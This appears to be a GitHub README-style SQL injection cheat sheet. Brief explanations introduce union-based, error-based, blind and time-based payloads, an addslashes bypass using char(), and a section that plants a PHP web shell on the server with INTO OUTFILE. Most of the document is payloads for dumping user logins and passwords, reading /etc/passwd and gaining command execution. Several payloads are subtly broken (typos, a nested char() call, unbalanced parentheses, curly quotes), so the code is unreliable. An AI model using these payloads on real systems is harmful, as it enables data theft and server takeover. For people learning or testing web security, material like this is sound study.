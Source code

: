 # SQL Injection
SQL Injection is a common security vulnerability in web applications that interact with databases. In this type of attack, an attacker intentionally inserts malicious SQL statements into a web form's input fields or URL parameters, exploiting flaws in data validation or sanitization. When these instructions are executed by the database, they can allow the attacker to manipulate system behavior, such as accessing, modifying, or deleting data, or even gain complete control over the server.

## Information Schema
Through the Information Schema, it is possible to obtain the table with system users and passwords and obtain the information contained in it.

Exemple: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23

Exemple: ' union select 1,2,concat(login,':',senha),4,5 from table %23

## Error Based
Error Based, as the name implies, is based on the error that returns when trying to make a query in the database in some field. With it, you can inject SQL code to discover information about the table and the database.

Exemple: ' union select 1,2,3... %23'

Exemple: ' order by 1 or 2 or 3...'

Exemple: union select 1, column_name, load_file(”/etc/passwd”), 4, from information_schema.columns where table_schema=”database” and table_name=”users” %23

## Blind
When there are no indications if there is a SQL Injection, some tests can be used to verify the AND and OR logic of the program.

Exemple: ' or 1=1 union select 1,2#

### Blind Post
To discover confidential information from the server through logic, it is possible to use the ascii function to find out the name of the database in which the application is located, so it is very common to use Burp Suite in Repeater mode to make requests.

Exemple: ' or length(database()) = 7 #

Exemple: ' or ascii(substring(database(),1,1)) = ascii number for letter # 

Exemple: ' or database() = char(115,116,114,105,110,103) # 

Exemple: ' or ascii(substring(select loing from column name limit 0,1),1,1)) = ascii number for letter #

## Time Based
Time Based uses the sleep() function to check if there is a SQL Injection vulnerability by observing if the page takes a long time to respond after sending a sleep() in a request to the database. If possible, you can use if to scan information about the database, tables, and other information as in other vulnerabilities

Exemple: ' or sleep(5)#

Exemple: ' or if (length(database()) = 5, sleep(5), 0)#

Exemple: ' or if (database() = char(char(115,116,114,105,110,103)), sleep(5), 0)#

Exemple: ' or if (ascii(substring(database(), 1, 1)) = 100, sleep(5), 0)#

## SQLi to RCE
With SQL command injection, you can write data to the server with the INTO OUTFILE command and the path of the directory you want to save.

Exemple: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Exemple: ‘ union all select 1,2,3,4, “<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

## Bypass addslashes
In some cases, because of the way it was programmed to be queried in the database, some backslashes will be added to the query, making it impossible to make queries with single quotes, generating an error. However, one of the ways to circumvent this mechanism is to pass string values in decimals separated by commas with the char() function.

Exemple: echo -n “string” | od -An -tdC

Exemple:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)
